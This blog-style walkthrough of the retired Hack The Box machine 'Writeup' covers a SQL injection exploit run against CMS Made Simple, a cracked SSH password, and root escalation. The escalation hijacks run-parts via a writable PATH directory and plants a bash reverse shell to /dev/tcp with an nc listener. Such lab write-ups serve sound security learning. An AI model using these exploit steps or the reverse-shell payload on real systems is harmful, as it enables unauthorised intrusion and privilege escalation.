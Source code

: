 ```yaml
---
layout: post
title:  "HTB - Writeup"
date:   2020-06-01 20:00 +0100
tags: writeups
initial: 2019-09-01
---
```

Writeup for the retired HTB machine Writeup  
Link: https://www.hackthebox.eu/home/machines/profile/192  
IP: 10.10.10.138

<!--more-->

## Recon
Only Port 22 and 80 are open.
The page on Port 80 informs you that a DoS-Protection is in place, so no Dirbusting or Credential Stuffing!  
Instead, we spider the page with Owasp-ZAP. This yields some interesting paths.
```
/robots.txt
/sitemap.xml
/writeup/
/writeup/index.php?page=ypuffy
/writeup/index.php?page=blue
/writeup/index.php?page=writeup
```


## Webserver
The `robots.txt` leads us to /writeup, which doesn't seem to be DoS-Protected.  
Also, wappalyzer informs us that the site is built with *CMS Made Simple*.
By utilizing `searchsploit`, we find a SQL Injection for < 2.2.10. Important to note:  
Patch the `TIME` variable if you're on free! (I set mine to 4, the writeup page hints to 3 seconds).  
Now let it crack the password:

`python2 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlists/dirb/common.txt`

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
Dunno why, but the passcracker (`--crack`) refuses to run. I've put a simplified version into passcracker.py.  
If called with *rockyou.txt*, the password `raykayjay9` is found, which enables us to log in as ssh user jkr :3


Enumerate and have a look what happens on the system with `pspy`. If watched closesly, one can observe   
that a dynamic MOTD is generated. Maybe this can be exploited with path loading order?  
~~The only script in `/etd/update-motd.d`, `10-uname`, calls `uname` with a relpath, so if we overwrite uname with a shell, we're golden.~~  

```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 

/usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d 
```
By playing around we see that `/usr/local/sbin` is writable. Simply place a script named `run-parts` there that opens a reverse shell to the own machine:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.13.125/9999 0>&1
```

On your own machine, run `nc -nvlp 9999` for a receiving end. The next time a user logs in, the shell is triggered. After that, the root.txt can be catted.

